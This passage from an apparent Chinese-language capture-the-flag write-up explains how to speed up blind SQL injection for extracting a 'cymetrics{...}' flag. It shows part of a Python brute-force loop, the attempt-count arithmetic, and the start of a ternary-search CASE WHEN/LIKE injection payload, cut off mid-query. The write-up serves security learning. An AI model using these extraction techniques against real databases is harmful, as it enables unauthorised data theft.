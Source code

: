 ``` python
      else:
        found = True
        if data[0]["name"] == "home1":
          result+=chars[1]
        else:
          result+=chars[2]

    else:
      print('error')
      print(response.text)
      break

    if found:
      print_success("found: " + result)
      break

  if not found:
    print("end")
    print(response.text)
    break

print(f"time: {time.time() - start}s")
```

跑起來會像這樣：

![](/img/sql-injection-in-action/p2.png)

跑了大概 90 秒左右得出答案，比原本的快了不少。

假設 n 是字串長度，而我們的字元集大約 27 個，最差的狀況下，原本需要 27n 次嘗試才能得到 flag，而換成這種方法以後，只要 27n/3 = 9n 次。

不過這樣還不夠快，既然都可以有三種結果了，那何不如換種方式利用呢？

### 再次加速：三分搜

與其三個三個試，不如換成「三組三組」試，例如說原本的字元集是 `}abcdefghijklmnopqrstuvwxyz_`，分成三等份會變成：

1. }abcdefgh
2. ijklmnopq
3. rstuvwxyz_

我們去看字元是不是在某個特定組別裡面，SQL query 如下：

``` sql
(select case
  when (
    (content like 'cymetrics{}%') or
    (content like 'cymetrics{a%') or
    (content like 'cymetrics{b%') or
    (content like 'cymetrics{c%') or
    (content like 'cymetrics{d%') or
    (content like 'cymetrics{e%') or
    (content like 'cymetrics{f%') or
    (content like 'cymetrics{g%') or
    (content like 'cymetrics{h%')
  ) then 1
  when (
    (content like 'cymetrics{i%') or
    (content like 'cymetrics{j%') or
    (content like 'cymetrics{k%') or
    (content like 'cymetrics{l%') or
    (content like 'cymetrics{m%') or
    (content like 'cymetrics{n%') or
    (content like 'cymetrics{o%') or
    (content like 'cymetrics{p%') or
```